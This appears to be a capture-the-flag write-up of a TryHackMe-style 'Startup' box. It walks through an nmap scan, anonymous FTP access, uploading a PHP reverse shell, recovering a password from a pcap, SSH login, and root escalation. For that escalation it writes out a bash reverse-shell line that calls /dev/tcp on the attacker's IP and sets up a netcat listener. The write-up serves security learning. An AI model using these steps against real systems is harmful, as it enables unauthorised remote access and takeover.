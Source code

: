 # Startup

To find out what is on the server, we will have to run an nmap scan on the IP address. I will be using the following command:

```csharp
nmap -T4 -A 10.10.201.52 -oN nmap.txt
```

After the scan is done, we can see that port 21 \(usually for FTP\) is open:

```csharp
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12 04:53 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12 04:02 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12 04:53 notice.txt
```

These files look interesting, so I will download them. I following [this website](https://stackoverflow.com/questions/113886/how-to-recursively-download-a-folder-via-ftp-on-linux) to find out how to download files from ftp recursively, instead of one-by-one. This is the command I entered:

```csharp
wget -r ftp://anonymous:@10.10.201.52
```

I then had 3 items in my local directory: an image, a text file, and a directory called "ftp". I now have to find any useful information from these files. I noticed that in the text file, called "notice.txt, there is a name being used:

> Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.

I did get lost a bit here. I knew we had to upload a file to the ftp directory. If you look above, the ftp directory is able to be read and posted to. That connected with the idea that we can access the ftp files on http://10.10.201.52/files/, means that we can upload the php file and then access it through the website. For this, we will have to use a php-reverse-shell.php. I had gotten this hint by looking at the write-up at [this website](https://www.badtothepwn.com/2021/01/startup/). I uploaded the php-reverse-shell.php to the ftp directory using the ftp command line. I then went to the website, and then got a shell:

![netcat shell](../../.gitbook/assets/image%20%2810%29.png)

Using netcat, we can send and receive information. Here we are able to send linux commands. I found the recipe file and it was in the root directory of the system.

![output of recipe.txt](../../.gitbook/assets/screenshot-2021-03-07-162434.png)

I now have to find a way to get more forward in the system. I have found a pcap file that looks suspicious.

![](../../.gitbook/assets/image%20%2811%29.png)

I will have to download it to see where to go from there. I realized that using net cat from the server to my own machine, I would be able to send this file to myself. I used [this website](https://superuser.com/questions/98089/sending-file-via-netcat) to know the command for what to run on both sides. I now have the file downloaded onto my own machine. After getting a hint from [this website](https://hackofalltrades.dev/tryhackmes-startup-walkthrough/), I realized that I would have to look through the packets to find the password. I then found it in the data of a packet. 

![](../../.gitbook/assets/screenshot-2021-03-07-165106.png)

From here, I can use it to login to the user "lennie". I then used ssh to connect to the server using that username:

![SSH connection](../../.gitbook/assets/image%20%289%29.png)

In this directory, there was the file "user.txt". Looking in this, gets us an answer to one of the questions for this room.

![user.txt file](../../.gitbook/assets/screenshot-2021-03-07-165659.png)

Now, I have to find a way to get to root. I did need some help here again. I then referred back to the same website and noticed that I would have to edit a file located in /etc/print.sh. Viewing this website, I realized that I have to add a reverse bash shell to this file. This would make the file look like:

```csharp
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.2.54.229/1234 0>&1
echo "Done!"
```

I will then have to run netcat on my machine, that way I am ready for the netcat connection. Running "nc -vlnp 1234" will allow my machine to be open to a connection through netcat. After a couple minutes, I then got a connection to the root user.

![root access](../../.gitbook/assets/screenshot-2021-03-07-171544.png)

I then had root and also the final flag needed to finish the room.

